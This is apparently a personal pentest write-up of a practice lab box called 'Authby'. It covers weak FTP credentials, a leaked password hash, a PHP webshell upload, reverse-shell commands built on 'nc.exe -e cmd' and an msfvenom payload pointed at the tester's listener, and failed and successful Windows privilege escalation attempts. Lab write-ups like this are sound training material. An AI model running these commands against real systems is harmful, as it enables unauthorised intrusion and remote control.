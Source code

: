 # Authby

## Pentest Report for Authby

### Basic Information

* **Box name**: Authby
* **IP address**: 192.168.169.46
* **Operating system**: Windows
* **Date**: 3/24/2025

### Pentest Phases

#### 1. Reconnaissance

* Initial Nmap scan: `nmap -sC -sV -oA initial 192.168.169.46`
* Full scan: `nmap -p- --min-rate 10000 -oA full 192.168.169.46`
* Service version verification

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

#### 2. Enumeration

* Enumeration of users, groups, and other relevant information
* Search for known vulnerabilities for identified services

Ok so in our scan we got some interesting stuff, we're going to try and abuse one of the FTP services:

Ftp anonymous connection is enabled -> no interesting informations

I am able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

I download every files in the admin share and discover a hash:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption><p>offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0</p></figcaption></figure>

#### 3. Exploitation

* Exploitation attempts of discovered vulnerabilities
* Initial access to the target

it's hashcat mode 1600:

<figure><img src="../../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

another thing to note is when i connect with admin:admin i am able to upload php shell:

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||2064|)
150 File status okay; about to open data connection.
100% |*************************************************|  5496       23.29 MiB/s    00:00 ETA
226 Closing data connection.
5496 bytes sent in 00:00 (68.09 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||2065|)
150 Opening connection for /bin/ls.
total 9
-r--r--r--   1 root     root         5496 Mar 24 22:34 shell.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> 
```

but the php shell does not work so i upload nc exe and a php webshell and manage to get a webshell ->

```
http://192.168.169.46:242/webshell.php?cmd=whoami
```

So for my reverse shell i set up a listener and enter:

```
http://192.168.169.46:242/webshell.php?cmd=nc.exe+192.168.45.228+80+-e+cmd
```

and get my reverse shell

#### 4. Post-Exploitation

* Access persistence
* Privilege escalation
* Sensitive data extraction

After a quick whoami /priv i see that i have impersonate privileges so i start exploitation ->

God potato does not work:

```
.\GodPotato-NET4.exe -cmd "nc.exe -e cmd 192.168.45.228 9876"
```

I already had this issue so i'll use printspoofer:

and i got the error:

```
This version of C:\wamp\www\PrintSpoofer.exe is not compatible with the version of Windows you're running.
```

so i try juicy potato and start by uploading the executable and a shell.exe that i crafted:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.228 -f exe -o shell.exe
```

after being very anoyed i tried another path, i looked at the os version:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

and found something that seemed to suit the situation:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I had problems compiling the exploit:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* The default `gcc` compiler on Linux does **not** include Windows headers by default.
* The missing file suggests that i'm trying to compile a Windows-based program on a Linux system without the necessary Windows libraries.

So i need to :\


* **Windows-compatible toolchain** like `i686-w64-mingw32-gcc`, which includes Windows headers.
* Alternatively, install Windows headers for Linux (`mingw-w64`)

And manage to compile the exploit:

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

and i just run the exploit and manage to get my shell:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

#### 5. Cleanup

* Removal of artifacts from the target
* Documentation of vulnerabilities and exploitation methods
